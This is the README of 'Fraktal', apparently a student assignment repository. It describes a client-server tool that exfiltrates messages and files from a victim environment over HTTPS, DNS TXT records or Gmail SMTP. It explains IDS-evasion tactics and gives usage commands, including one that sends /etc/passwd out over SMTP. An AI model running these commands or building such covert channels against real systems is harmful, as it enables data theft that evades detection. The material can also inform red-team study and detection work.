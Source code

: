 # Fraktal Project

This repository contains the code for the Fraktal project, which includes both client and server applications. The client application can send messages or files using different protocols (HTTPS, DNS, SMTP), and the server application can receive and process these messages or files.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Docker](#docker)
- [Techinical Details](#technical-details)
- [Demo](#demo)
## Installation

### Prerequisites

- Python 3.10 or higher

### Clone the Repository

```sh
git clone https://github.com/khaluan/FraktalAssignment.git
cd FraktalAssginment
```

### Install Python Dependencies
```sh
pip install -r requirements.txt
```
## Usage
### Client Application
The client application can send messages or files using different protocols. You can specify which clients to include, which message to send, or which file to send via command-line arguments.

```sh
python -m client.main --clients https dns --message "Hello, world!"  --size 1000 --rate 5
python -m client.main --clients smtp --file "/etc/passwd"
```

The client application is based on a manager that could change to a different protocol when the current protocol is blocked. 

### Server Application

#### Create certificate for HTTPS server
The HTTPS server requires to have a TLS certificate to operate. To create a self-sign certificate, run the following commands and change the domain name to the corresponding domain.
```sh
openssl genpkey -algorithm RSA -out certs/server.key
openssl req -new -key certs/server.key -out certs/server.csr -subj "/CN=your-domain.com"
openssl x509 -req -days 365 -in certs/server.csr -signkey certs/server.key -out certs/server.crt
```

The server application can receive and process messages or files sent by the client application. User could select to deploy all or few selective protocols on this server. The message is stored in received.txt file and the files are stored in files folder.

```sh
python -m server.main 
```

### Environment variables
The environment variables are stored in the corresponding **[server/client]/config.py** and the credential should be setup in the **.env** file

One important notice is that it is recommended to use two different accounts when exfiltrating data with SMTP, since the credential of the sender is deployed into the victim environment, therefore, that mailbox is considered to be fully compromised. Hence it is not recommended to store any information in that mailbox. All the sent email will be removed immediately.

Contributing
Contributions are welcome! Please open an issue or submit a pull request for any improvements or bug fixes.

## Technical details
The application tries to send data using different protocol by abusing different fields of the network packet based on the corresponding protocols.

### HTTPS
HTTPS provides a secure communication with TLS. Therefore, it is straightforward to put the data into the body of the requests. In this project, the server setup a simple HTTPS server handle the POST requests. 

The body of the request is used to store data. In case of sending a file, it is encoded using multi-part form. In this case the communication don't need any further encryption since the traffic is already protected with TLS. 

Further protection could be employed encrypt the SNI using the ECH extension in TLS 1.3 to further hide the traffic among benign TLS traffics. However, this is not implemented in this project due to time constraint.

### DNS
DNS is a protocol used to translate human readable names to IP addresses. DNS is based on UDP, and is widely used without encryption. Therefore, the content of the traffic could be analyzed with intrusion detection systems. Therefore, to make it unreadable by the IDS, we need to perform an encryption step before sending the message. 

The client will initiate a request for A record of the specific domain to the server with a specific name to get the encryption key. The key will be in base64 encoding stored in the domain name of the response. Since the encryption key is small it could easily fit into the domain name. 

Then all the subsequent traffic will encrypt the message that needs to be sent, and stored it in an additional TXT record. Since the TXT records allow up to 255 bytes of additional data, it could be abused to encode the data.

However, the DNS requests and response is limited in terms of throughput, it is only effective to extract small data or message. If the size of the data is large, it would result in either big DNS request, or high number of requests per second. Due to this nature, the DNS client only support sending message instead of files.

### SMTP
We use SMTP to create an email from sender to the receiver with the data attached to the body and the extracted files as the attachment. We abuse the smtp server of Google to create a higher credability since it has good reputation and is not likely to be blocked by IDS.

The server just simple check for any new message after a period of time, parse the data and the attachment in the email. However, each attachment is only limited up to 25MB by Google mail service. For a large file exfiltration, the client could split the file into 25MB chunks and send it over the SMTP with the order embedded in the filename.  Then the server can parse that data and reconstruct the file based on the order. The feature is possible to implement, however, due to the time constraint, the implementation is not included in this projects. The client in this projects only support files that is less than 25MB.

To create the application password for gmail account please follow the instruction [here](https://myaccount.google.com/apppasswords)

### Traffic controllers
We provides 2 types of traffic controllers, including the packet size controller and the time controller. This is inspired by the common behavior of the IDS, which is detecting the data exfiltration based on large traffic to a destination server or high number of traffic during a period of time.

#### Package size controller
This controller will try to split the message into smaller chunks with variable length to make the traffic looks the same as the normal traffic. The controller can be configure to have the average payload length for each requests.

This can be set at client with --size [size] flag and only available for sending message

#### Time-based controller
The controller creates pauses between different requests to reduce the high volumn of connection between the client and the server. This controller can be configured by specifying the maximum number of connection per seconds

This can be set at client with --rate [rate] flag and only available for sending message

## Demo
This can be deployed with docker-compose by running 
```sh
docker-compose up
docker compose exec client python -m client.main --clients https --message "hello"
docker compose exec server cat received.txt 
docker compose exec server ls files 
docker compose exec server cat files/[your file name]
```